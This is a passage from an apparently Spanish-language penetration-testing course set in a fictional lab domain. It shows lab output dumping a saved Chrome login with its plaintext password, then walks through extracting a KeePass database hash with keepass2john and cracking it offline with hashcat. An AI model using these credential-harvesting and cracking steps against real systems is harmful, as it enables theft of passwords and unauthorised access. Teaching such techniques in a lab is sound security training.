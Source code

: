 ```r


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```

---

## Password Managers

Muchas empresas proporcionan gestores de contraseñas a sus usuarios. Esto puede ser en forma de una aplicación de escritorio como `KeePass`, una solución basada en la nube como `1Password`, o una bóveda de contraseñas empresarial como `Thycotic` o `CyberArk`. Obtener acceso a un gestor de contraseñas, especialmente uno utilizado por un miembro del personal de IT o de todo un departamento, puede llevar a un acceso de nivel administrador a objetivos de alto valor como dispositivos de red, servidores, bases de datos, etc. Podemos obtener acceso a una bóveda de contraseñas a través del uso de contraseñas o adivinando una contraseña débil/común. Algunos gestores de contraseñas como `KeePass` se almacenan localmente en el host. Si encontramos un archivo `.kdbx` en un servidor, workstation o file share, sabemos que estamos tratando con una base de datos `KeePass` que a menudo está protegida solo por una contraseña maestra. Si podemos descargar un archivo `.kdbx` a nuestro host de ataque, podemos usar una herramienta como [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) para extraer el hash de la contraseña y ejecutarlo a través de una herramienta de cracking de contraseñas como [Hashcat](https://github.com/hashcat) o [John the Ripper](https://github.com/openwall/john).

### Extracting KeePass Hash

Primero, extraemos el hash en formato Hashcat usando el script `keepass2john.py`.

```r
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

### Cracking Hash Offline

Luego podemos alimentar el hash a Hashcat, especificando [hash mode](https://hashcat.net/wiki/doku.php?id=example_hashes) 13400 para KeePass. Si tiene éxito, podemos obtener acceso a una gran cantidad de credenciales que se pueden usar para acceder a otras aplicaciones/sistemas o incluso a dispositivos de red, servidores, bases de datos, etc., si podemos obtener acceso a una base de datos de contraseñas utilizada por el personal de IT.

```r
hashcat -m 13400 keepass_hash /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

```